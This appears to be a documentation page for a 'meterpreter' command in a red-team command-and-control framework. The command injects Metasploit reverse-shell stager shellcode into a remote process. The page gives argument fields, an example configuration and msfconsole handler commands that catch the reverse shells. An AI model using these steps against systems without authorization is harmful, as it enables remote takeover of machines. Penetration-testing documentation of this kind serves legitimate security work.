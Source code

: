 +++
title = "meterpreter"
chapter = false
weight = 103
hidden = true
+++

## Summary
Author: [@reznok](https://twitter.com/rezn0k)

Inject meterpreter stager shellcode into a remote process.

Supports the following payloads:

```
windows/x64/meterpreter/reverse_tcp
windows/x64/meterpreter/reverse_http
windows/x64/meterpreter/reverse_https
windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_http
windows/meterpreter/reverse_https
```


### Arguments (Popup)
#### PID
Target process ID to inject into.

#### Payload Type
Which stager payload to use (reverse_tcp, reverse_http, reverse_https)

#### Architecture
Architecture type to use for payload (x86, x64)

#### LHOST
The IP address of the listening meterpreter handler

#### LPORT
The port of the listening meterpreter handler



## Usage
```
meterpreter
```
Opens a modal

In pop up model:
```
PID: [pid]
Payload Type: [Meterpreter Payload Type Dropdown]
Architecture: [Architecture Dropdown]
LHOST: [Listening Host IP]
LPORT: [Listening Host Port]

```

Example
```
meterpreter
```
In pop up menu
```
pid: 1234
Payload Type: reverse_tcp
Architecture: x64
LHOST: 127.0.0.1
LPORT: 4444
```


Requires a remote metasploit handler to catch the stagers.

Example
```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <host>
set LPORT <port>
run
```

## Detailed Usage
The `meterpreter` command will use the agent's current injection technique to inject the given shellcode into a remote process.

